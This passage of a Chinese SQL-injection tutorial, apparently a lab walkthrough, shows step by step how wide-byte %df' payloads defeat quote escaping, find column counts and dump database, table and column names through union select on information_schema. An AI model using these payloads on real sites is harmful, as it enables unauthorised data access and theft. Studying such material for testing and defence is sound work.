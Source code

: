 说明为单引号注入


---


> 
<h3> 3.3、第二步：分析过滤</h3>
方法一：
考虑一步一步将注入语句字符一个一个替换掉，直到不报错（浪费时间）
或者全部替换（如果报错，不知道哪里被过滤了）
<hr/>
方法二：
获取源码进行白盒审计（最优）
<hr/>方法三： 
 eg：输入?id=and or union select --+ updatexml # extractvalue（重要的都输进去）
看输入回显过滤语句的情况

#被过滤了 


---


> 
<h3>3.4、第三步：判断字段数/回显位</h3>
?id=1%df' union select 1,2,3 --+
回显正常


?id=1%df' union select 1,2,3,4 --+
报错


 说明字段数为3
<hr/>
判断回显位
?id=-1%df' union select 1,2,3 --+




> 
<h3>3.5、第四步：暴库</h3>
?id=-1%df' union select 1,2,database() --+




> 
<h3>3.6、第五步：爆表名</h3>
?id=-1%df' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+
'security'的单引号也会被转义，可以直接进行十六进制编码,或者使用database()





> 
<h3>3.7、第六步：爆字段</h3>
?id=-1%df' union select 1,2,group_concat(column_name) from information_schema.columns where table_name=0x7573657273 --+
'user'的单引号也会被转义，可以直接进行十六进制编码
